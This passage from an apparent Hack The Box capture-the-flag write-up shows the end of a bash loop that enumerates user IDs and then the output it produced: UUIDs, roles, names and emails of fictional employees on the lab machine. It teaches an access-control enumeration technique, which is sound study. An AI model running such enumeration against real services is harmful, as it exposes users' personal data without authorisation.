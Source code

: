 ```bash
        fi
        echo "----------------------------------------"
    else
        echo -e "[-] User $uid not found or access denied"
    fi
done
```

We'll see the following output:

```
[*] Enumerating users 1-10...
----------------------------------------
[+] User 1:
UUID: 40f5888b67c748df7efba008e7c2f9d2
Role: employee
Name: Amy Lindon
Email: a_lindon@employees.htb
----------------------------------------
[+] User 2:
UUID: 4a9bd19b3b8676199592a346051f950c
Role: employee
Name: Iona Franklyn
Email: i_franklyn@employees.htb
----------------------------------------
[+] User 3:
UUID: 771409a8fb1543788fe7d91f1ea0987f
Role: employee
Name: Ardith Bloxham
Email: a_bloxham@employees.htb
----------------------------------------
[+] User 4:
UUID: 1a1f289428bd7ab3beb8a89d4c90b22f
Role: employee
Name: Lela Symons
Email: l_symons@employees.htb
----------------------------------------
[+] User 5:
UUID: eb4fe264c10eb7a528b047aa983a4829
Role: employee
Name: Callahan Woodhams
Email: c_woodhams@employees.htb
----------------------------------------
[+] User 6:
UUID: cb67c3ae286e9140355eb56d2c33ff5b
Role: employee
Name: Roscoe Alden
Email: r_alden@employees.htb
----------------------------------------
[+] User 7:
UUID: 63d9b90d9808e4ddc24c2331ddd6775d
Role: employee
Name: Marsha Pierce
Email: m_pierce@employees.htb
----------------------------------------
[+] User 8:
UUID: deb77b7fcd6ee6af0b2c992355eaeea9
Role: employee
Name: George Fleming
Email: g_fleming@employees.htb
----------------------------------------
[+] User 9:
UUID: ca7724498403de38829ae36fc9149b75
Role: employee
```